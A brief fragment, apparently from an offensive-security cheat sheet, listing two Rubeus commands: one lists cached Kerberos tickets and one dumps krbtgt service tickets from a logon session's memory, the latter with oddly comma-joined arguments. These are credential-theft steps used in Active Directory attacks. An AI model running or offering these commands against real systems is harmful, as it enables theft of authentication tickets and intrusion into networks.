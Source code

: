 Rubeus

~~~
./rubeus.exe klist
~~~

~~~
./rubeus.exe dump,/service:krbtgt,/luid:LUID(0x26b1ba),/nowrap
~~~

